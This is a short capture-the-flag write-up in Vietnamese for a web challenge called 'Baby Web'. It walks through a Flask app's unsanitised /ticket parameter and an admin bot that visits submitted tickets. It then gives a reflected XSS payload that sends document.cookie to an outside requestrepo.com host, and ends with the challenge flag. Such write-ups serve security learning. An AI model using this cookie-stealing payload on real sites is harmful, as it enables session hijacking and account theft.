






# Baby Web



Giao diện trang web là một trang report and issue cho phép mình submit ticket



Tại [adminbot.py](dist/adminbot.py) thì mình biết được flag nằm ở trong cookie của admin



Trong file [server.py](dist/server.py)  thì mình biết được tại trang `/ticket` sử dụng param message để render ra trang web

```python
@app.route('/ticket', methods=['GET'])
def ticket_display():
    message = request.args.get('message')
    return render_template('ticket.html', message=message)
```

param được truyền vào mà không qua các bước kiểm tra  nên việc xảy ra lỗi XSS có khả năng rất cao



Sau khi submit ticket thì admin có truy cập vào đường link với message của mình gửi lên

```python
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == "GET":
        return render_template('index.html')
    
    message = request.form.get('message')
    if len(message) == 0:
        flash("Please enter a message")
        return render_template('index.html')

    link = f"/ticket?message={quote(message)}"

    # Admin vists the link here
    visit(BASE_URL, f"{BASE_URL}{link}")

    return redirect(link)
```

Submit ticket

```
<script>document.location="http://94bjfe2n.requestrepo.com?"+document.cookie</script>
```





`Flag: grey{b4by_x55_347cbd01cbc74d13054b20f55ea6a42c}`